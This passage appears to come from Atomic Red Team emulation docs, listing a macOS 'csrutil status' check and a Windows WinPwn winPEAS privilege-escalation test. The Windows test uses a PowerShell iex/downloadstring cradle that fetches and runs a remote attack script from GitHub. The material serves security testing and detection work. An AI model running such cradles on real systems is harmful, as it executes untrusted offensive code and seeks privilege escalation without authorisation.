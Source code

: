 **Supported Platforms:** macOS


**auto_generated_guid:** 327cc050-9e99-4c8e-99b5-1d15f2fb6b96






#### Attack Commands: Run with `sh`! 


```sh
csrutil status
```






<br/>
<br/>

## Atomic Test #14 - WinPwn - winPEAS
Discover Local Privilege Escalation possibilities using winPEAS function of WinPwn

**Supported Platforms:** Windows


**auto_generated_guid:** eea1d918-825e-47dd-acc2-814d6c58c0e1






#### Attack Commands: Run with `powershell`! 


```powershell
$S3cur3Th1sSh1t_repo='https://raw.githubusercontent.com/S3cur3Th1sSh1t'
iex(new-object net.webclient).downloadstring('https://raw.githubusercontent.com/S3cur3Th1sSh1t/WinPwn/121dcee26a7aca368821563cbe92b2b5638c5773/WinPwn.ps1')
winPEAS -noninteractive -consoleoutput
```






<br/>
<br/>

## Atomic Test #15 - WinPwn - itm4nprivesc
Discover Local Privilege Escalation possibilities using itm4nprivesc function of WinPwn

**Supported Platforms:** Windows


**auto_generated_guid:** 3d256a2f-5e57-4003-8eb6-64d91b1da7ce




